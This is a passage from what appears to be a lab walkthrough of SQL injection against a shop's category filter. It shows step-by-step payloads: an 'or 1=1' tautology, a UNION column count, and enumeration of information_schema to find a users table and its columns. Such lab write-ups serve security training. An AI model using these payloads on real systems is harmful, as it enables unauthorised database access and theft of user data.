 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,NULL-- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can get the table names listing TABLE_NAME from information_schema.tables:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+'1',TABLE_NAME+from+information_schema.tables--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/1dad76809c888b08eed7b494a4104352.png)

Next list the columns in the table “users_vptjgu” with something like:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT * FROM information_schema.columns WHERE table_name = 'users_vptjgu'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+'1',COLUMN_NAME+from+information_schema.columns+WHERE+table_name+=+'users_vptjgu'--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get 2 column names:

![img](media/6c0cce3ae6a0f18c8b441779c13a0104.png)
